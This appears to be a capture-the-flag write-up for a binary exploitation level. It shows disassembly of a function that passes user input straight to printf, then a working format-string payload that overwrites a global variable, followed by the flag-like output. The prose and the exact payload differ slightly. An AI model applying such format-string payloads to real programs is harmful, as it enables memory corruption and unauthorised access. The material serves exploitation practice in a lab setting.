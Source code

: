 Same as the last exercice, we need to use `String Format Exploit`, we decompile with `objdump -d level4` :
```asm
08048444 <p>:
 8048444:	55                   	push   %ebp
 8048445:	89 e5                	mov    %esp,%ebp
 8048447:	83 ec 18             	sub    $0x18,%esp
 804844a:	8b 45 08             	mov    0x8(%ebp),%eax
 804844d:	89 04 24             	mov    %eax,(%esp)
 8048450:	e8 eb fe ff ff       	call   8048340 <printf@plt>
 8048455:	c9                   	leave  
 8048456:	c3                   	ret 
```

So we may use `printf` in `p` function to evaluate and change the `eip` register :
At 4th posisition got `41414141` so we replace `AAAA` by the address to change, followed by the padding (60), followed by `%4$n`
<m> is at *0x08049810

```bash
(python -c "print '\x10\x98\x04\x08' + '%x' * 10 + '%16930052x' + '%n'") | ./level4
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```



